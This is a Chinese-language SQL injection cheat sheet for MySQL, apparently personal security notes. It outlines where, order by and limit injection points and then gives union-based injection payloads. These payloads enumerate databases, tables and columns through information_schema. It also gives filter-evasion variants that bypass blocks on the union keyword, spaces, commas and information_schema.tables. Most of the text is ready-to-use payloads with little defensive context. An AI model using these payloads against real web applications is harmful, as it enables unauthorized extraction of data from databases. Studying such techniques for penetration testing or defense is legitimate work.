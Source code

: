 目前我认为来说主要注入点有3个，途中##标识的3个地方，分别`select`语句下是`where`处的注入、`order by`处的注入和`limit`处的注入。第3个从来没有碰到过...但是在p神的博客后看到，这个注入有点局限，高版本不能使用select子句查询了。  

## 1号注入点
where处的注入,最基本的到高级的是: union注入->报错注入->布尔注入->盲注

## union注入

union注入的条件是有回显.  
注入方法是先用`order by`判断列,记得用注释符号注释掉语句后面的内容,因为可能原先的sql语句也存在order by.  
假如有3列  

- 注入语句为:
```sql
union select 1,group_concat(schema_name),3 from information_schema.schemata
union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=DATABSE
union select 1,group_concat(column_name),3 from information_schema.columns where table_name=TABLE
union select 1,PARAM,3 from DATABASE.TABLE
```

- 对于过滤了union可以使用如下方法
```sql
\nunion select 1,group_concat(schema_name),3 from information_schema.schemata
1.1union select 1,group_concat(schema_name),3 from information_schema.schemata
8e0union select 1,group_concat(schema_name),3 from information_schema.schemata
/*!50000union*/select 1,group_concat(schema_name),3 from information_schema.schemata
Union select 1,group_concat(schema_name),3 from information_schema.schemata
```

- 过滤了空格
```sql
\nunion(select(1),group_concat(schema_name),(3)from(information_schema.schemata));
select~1
select@1
select-1
select!1
select'1'
```

- 过滤了逗号的话,可以使用
```sql
union select * from ( (select 1)a join (select group_concat(schema_name) from information_schema.schemata)b join (select 3)c )
union select * from ( (select 1)a join (select group_concat(table_name) from information_schema.tables where table_schema=DATABSE)b join (select 3)c )
union select * from ( (select 1)a join (select group_concat(column_name) from information_schema.columns where table_name=TABLE)b join (select 3)c )
union select * from ( (select 1)a join (select PARAM from DATABASE.TABLE)b join (select 3)c )
```
- 又过滤逗号又过滤空格
```sql
union(select*from(((select@1)a)join((select(group_concat(schema_name))from(information_schema.schemata))b)join((select@3)c)));
```
- 过滤了information_schema.tables(版本需要大于5.6)
```sql
union select * from ( (select 1)a join (select group_concat(table_name) from mysql.innodb_table_stats where database_name=schema() )b join (select 3)c )
```
